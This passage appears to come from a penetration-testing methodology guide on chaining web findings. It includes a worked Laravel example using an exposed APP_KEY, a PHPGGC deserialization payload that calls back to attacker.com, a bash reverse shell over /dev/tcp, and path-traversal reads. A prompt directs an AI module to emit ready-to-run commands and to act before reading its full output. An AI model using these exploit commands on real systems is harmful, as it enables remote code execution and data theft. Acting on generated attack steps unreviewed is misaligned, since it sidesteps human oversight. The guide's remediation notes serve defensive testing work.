1. Remove 'role' from fields accepted by PUT /api/user/profile — use explicit allowlist
2. Remove or gate /api/admin/exec behind network-level restriction (not just role check)
3. Rotate JWT secret immediately (F-001 — 'secret123' is compromised)
```

---

### Worked Example 3: Legacy PHP Application

**Input findings**

```json
{
  "engagement_id": "ENG-PHP-003",
  "target": "https://legacy.corp-target.com",
  "findings": [
    {
      "id": "F-001",
      "title": "Path traversal in file download — reads any file",
      "type": "path_traversal",
      "subtype": "read",
      "state": "confirmed",
      "severity": "high",
      "url": "https://legacy.corp-target.com/download.php",
      "method": "GET",
      "parameter": "file",
      "capabilities": ["read_arbitrary_file"],
      "constraints": ["php_readfile_not_include", "no_code_exec_directly"],
      "requires_auth": false,
      "auth_level": "none",
      "notes": "Uses readfile() not include(). Cannot execute PHP. Confirmed /etc/passwd readable. Can reach /var/log/apache2/access.log."
    },
    {
      "id": "F-002",
      "title": "Reflected XSS in search q parameter — stored via User-Agent in log",
      "type": "xss",
      "subtype": "reflected",
      "state": "confirmed",
      "severity": "medium",
      "url": "https://legacy.corp-target.com/search.php",
      "method": "GET",
      "parameter": "q",
      "capabilities": ["execute_in_victim_browser"],
      "constraints": ["reflected_only", "victim_must_click"],
      "requires_auth": false,
      "auth_level": "none",
      "notes": "q parameter reflected without encoding. No stored component."
    },
    {
      "id": "F-003",
      "title": "File upload — extension restricted to .jpg/.png but no execution block",
      "type": "file_upload",
      "subtype": "bypass_possible",
      "state": "needs-validation",
      "severity": "medium",
      "url": "https://legacy.corp-target.com/upload.php",
      "method": "POST",
      "parameter": "userfile",
      "capabilities": ["upload_file_to_webroot"],
      "constraints": ["extension_check_only", "uploaded_to_webroot_uploads_dir"],
      "requires_auth": true,
      "auth_level": "user",
      "notes": "Extension checked client-side only — needs server-side validation testing. Files stored in /var/www/html/uploads/. Server is Apache + PHP 7.4."
    },
    {
      "id": "F-004",
      "title": ".env file exposed — contains DB credentials and APP_KEY",
      "type": "info_disclosure",
      "subtype": "env_file",
      "state": "confirmed",
      "severity": "high",
      "url": "https://legacy.corp-target.com/.env",
      "method": "GET",
      "capabilities": ["read_any_user_data"],
      "constraints": [],
      "requires_auth": false,
      "auth_level": "none",
      "notes": "DB_PASSWORD=Sup3rS3cur3!, DB_HOST=db.internal, APP_KEY=base64:xxxxxxxxxxx. MySQL on db.internal:3306."
    }
  ]
}
```

**Chain construction**

```
REGISTRY:
F-001 | confirmed  | read_arbitrary_file                     | none
F-002 | confirmed  | execute_in_victim_browser               | none
F-003 | needs-val  | upload_file_to_webroot                  | user
F-004 | confirmed  | read_any_user_data (creds)              | none

GRAPH EDGES:
F-001 (read_arbitrary_file, no exec) alone → not RCE
F-003 (upload_file_to_webroot) + (PHP execution enabled) → execute_os_command
F-004 (DB creds) + MySQL access → connect_to_internal_db → read all data
F-004 (APP_KEY) + Laravel deserialization gadget → deserialize_attacker_data → RCE

CHECKING LOG POISONING PATH:
F-001 can read /var/log/apache2/access.log
BUT F-001 uses readfile() not include() → cannot execute PHP in log
CHAIN-04 (LFI + log poison) NOT VIABLE without an include primitive

CHECKING UPLOAD + EXECUTION PATH:
F-003 uploads to /var/www/html/uploads/ (within web root)
If server-side extension check bypassable → PHP file served and executed
→ execute_os_command confirmed
CHAIN-21 pattern: F-003 → RCE (1 link once bypass confirmed)
Priority: validate F-003 server-side bypass immediately

CHECKING .env → Laravel deserialization:
APP_KEY is the Laravel encryption key used for cookie/session encryption
Forge a malicious serialized payload encrypted with APP_KEY
Laravel deserializes the cookie → RCE via PHP gadget chain (PHPGGC)
CHAIN-18 pattern: F-004 + PHPGGC → RCE

VIABLE CHAINS:
Chain A: F-003 (upload bypass) → RCE — needs-validation link, validate first
Chain B: F-004 (APP_KEY) → Laravel cookie deserialization → RCE — confirmed inputs
Chain C: F-004 (DB creds) → MySQL access → read all customer data

PRIORITY: Chain B is fully confirmed (both inputs confirmed). Chain A is P0 if validated.
```

**Chain B scoring**

```
CL = 2 links (APP_KEY from .env + forge Laravel cookie)  → 10
AR = unauthenticated (no account needed)                  → 10
R  = confirmed(1.0) × confirmed(1.0) × 10                → 10
I  = RCE as www-data                                      → 9
D  = 1 request with forged cookie                         → 10

Score = (10+10+10+9+10)/5 = 9.8 → P0
CVSS: AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H = 9.8
```

**Chain B document**

```markdown
# CHAIN-B: .env APP_KEY Exposure → Laravel Cookie Deserialization → RCE

**Chain ID**: CHAIN-B
**Date Discovered**: 2024-11-01
**State**: confirmed
**Priority**: P0
**Chain Score**: 9.8 / 10
**CVSS**: 9.8  `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H`

## Summary

The .env file is publicly readable and contains the Laravel APP_KEY. This key is used
to encrypt/sign session cookies. An attacker generates a malicious serialized PHP
object, encrypts it with APP_KEY using PHPGGC, and sends it as the application's
session cookie. Laravel decrypts and deserializes it, executing arbitrary OS commands
as www-data. Zero authentication required. One crafted HTTP request.

## Links

| # | Finding | Capability | Auth | Confirmed |
|---|---------|-----------|------|-----------|
| 1 | F-004: .env APP_KEY exposure | read APP_KEY (input to forge) | none | yes |
| 2 | Laravel cookie deserialization + PHPGGC gadget | execute_os_command | none | yes |

## Step-by-Step Exploitation

### Step 1 — Extract APP_KEY from .env

curl https://legacy.corp-target.com/.env | grep APP_KEY
→ APP_KEY=base64:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx=

### Step 2 — Identify Laravel version (determines gadget chain)

curl https://legacy.corp-target.com/vendor/laravel/framework/src/Illuminate/Foundation/Application.php \
  | grep "const VERSION"
# Or check composer.lock if readable via path traversal (F-001):
curl "https://legacy.corp-target.com/download.php?file=../../../../composer.lock" | grep -A1 '"laravel/framework"'

### Step 3 — Generate PHPGGC payload encrypted with APP_KEY

# Install PHPGGC if not present:
git clone https://github.com/ambionics/phpggc /opt/phpggc

# Generate encrypted Laravel cookie payload:
php /opt/phpggc/phpggc --laravel-cookie "s:44:\"$(openssl rand -hex 22)\";" \
    Laravel/RCE1 system 'curl https://attacker.com/rce/$(id)' \
    -- "base64:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx="

# Output: eyJpdiI6I... (Laravel encrypted cookie value)

### Step 4 — Send payload as session cookie

curl -v https://legacy.corp-target.com/ \
  -H "Cookie: laravel_session=<phpggc_output>"

Expected result: OOB HTTP callback received at attacker.com with output of id command

### Step 5 — Upgrade to interactive reverse shell

php /opt/phpggc/phpggc --laravel-cookie "..." Laravel/RCE1 \
    system 'bash -c "bash -i >& /dev/tcp/attacker.com/4444 0>&1"' \
    -- "base64:xxxx..."

curl https://legacy.corp-target.com/ -H "Cookie: laravel_session=<payload>"

## Impact

OS command execution as www-data on the web server.
DB_PASSWORD from .env also compromised — direct MySQL access to db.internal:3306.
All application data exfiltrable via either RCE or direct DB connection.

## Remediation

1. Immediately rotate APP_KEY — all existing sessions invalidated, generate new key
2. Block public access to .env via web server config:
   Apache: `<Files .env> Require all denied </Files>`
   Nginx: `location ~ /\.env { deny all; }`
3. Upgrade Laravel to patch known deserialization gadget chains
4. Implement PHP's `unserialize_callback_func` restriction
```

---

## SECTION 7 — One-Shot Chain Analysis Prompt

Use this prompt to analyze an entire engagement's findings at once. Paste it into a fresh pi context with the findings JSON appended.

```
CHAIN ANALYSIS REQUEST
══════════════════════════════════════════════════════════════════

You are the chain-detection module. Your input is the findings JSON below.
Your output is the complete chain analysis in the exact format specified.

TASK: Identify every viable exploit chain. A chain combines ≥2 findings
(or findings + operational steps) to reach an outcome more severe than
any single finding achieves alone.

EXECUTE THESE STEPS IN ORDER:

STEP 1 — REGISTRY
Print a table of all findings: ID | State | Capabilities | Auth | Constraints
Include only confirmed and needs-validation findings.

STEP 2 — CAPABILITY GRAPH
For each confirmed capability in the registry, list what it enables when
combined with other capabilities or with standard operational tools
(aws-cli, mysql-client, PHPGGC, ysoserial, hashcat, etc.).
Format: CAPABILITY + [condition] → ENABLES

STEP 3 — PATH ENUMERATION
For each of the following target outcomes, list every path through the
capability graph that reaches it. Mark each link as confirmed, needs-val,
or operational:
  a. execute_os_command
  b. read_cloud_credentials + cloud access
  c. admin account takeover
  d. mass account takeover (all users)
  e. full database read (all users)
  f. financial fraud / transaction bypass
  g. Any other critical outcome visible from this specific target's findings

STEP 4 — SCORING
For every viable path from Step 3, calculate the chain score using:
  CL: Chain Length score (2L=10, 3L=8, 4L=6, 5L=4, 6+L=2)
  AR: Auth at weakest link (none=10, any-acct=8, low=6, specific=4, high=2)
  R:  Reliability = product of per-link weights × 10
      (confirmed=1.0, high=0.9, race=0.6, specific-state=0.4, needs-val=0.2)
  I:  Impact of final outcome (RCE-root=10, RCE-user=9, cloud-breach=9,
      mass-ATO=8, admin-ATO=8, financial-fraud=8, full-DB=7, priv-ATO=7,
      stored-XSS-mass=6, PII-all=6, single-ATO=5, sensitive-read=4)
  D:  Detectability (1-req=10, 2-5req=8, 10-50req=6, 50-200req=4,
      brute=2, destructive=1)
  Final = (CL+AR+R+I+D)/5

STEP 5 — RANKED OUTPUT TABLE
Print all chains ranked by score:
  RANK | CHAIN-ID | TITLE | SCORE | PRIORITY | CVSS | CONFIRMED-LINKS | UNCONFIRMED-LINKS

STEP 6 — CHAIN DOCUMENTS
For every chain with score ≥ 5.0, output the full chain document using
the Section 5 template. Include exact commands with no placeholders.
Fill in real values from the findings JSON.

STEP 7 — VALIDATION TODO LIST
For every needs-validation link in any scored chain, output:
  FINDING-ID | WHAT TO TEST | ENDPOINT | TEST REQUEST | SUCCESS INDICATOR

STEP 8 — NEXT ACTION
State exactly which chain to execute first and the first command to run.

══════════════════════════════════════════════════════════════════
FINDINGS JSON:
[PASTE FINDINGS JSON HERE]
══════════════════════════════════════════════════════════════════
```

### How to use this prompt

1. Serialize all current engagement findings to the input format from Section 2
2. Paste the complete JSON into `[PASTE FINDINGS JSON HERE]`
3. Run the prompt in a fresh pi context
4. The output is a complete, ranked chain analysis ready to execute
5. Begin with the Step 8 "next action" immediately — do not read the full output before acting

### Incremental update usage

When a new finding is confirmed mid-engagement, re-run the prompt with the updated findings JSON and compare the new ranked table to the previous one. New chains that appear are your immediate next actions.

---

## Operational Notes

**Always check for CHAIN-12 first.** Info disclosure to credential reuse is the most common high-severity chain in real engagements and the easiest to miss because each individual finding scores low. Check every finding for credential material before concluding it is low-severity.

**Partial chains are worth documenting.** A chain where one link is needs-validation is one test away from a P0. Always record partial chains with their missing link clearly identified — this drives the next test case.

**Chains beat individual findings in reports.** A stored XSS (Medium) + CSRF bypass (Low) chaining to stored XSS against admin (Critical) is the finding that matters. Report the chain as the primary finding and the individual components as contributing factors.

**Constraints kill chains.** Before scoring a chain as confirmed, verify that the constraints of each finding do not break the bridge to the next finding. The most common killers: blind SSRF cannot reflect metadata (breaks CHAIN-01 unless OOB possible), CSP blocks inline XSS payloads (breaks CHAIN-03 and CHAIN-11), `secure_file_priv` set (breaks CHAIN-06), `readfile()` not `include()` (breaks CHAIN-04).

**Score inflation check.** If a chain scores > 9.5, verify that neither the auth level nor the reliability is overstated. A race condition that scores R=10 is wrong — races are R=6 at best.
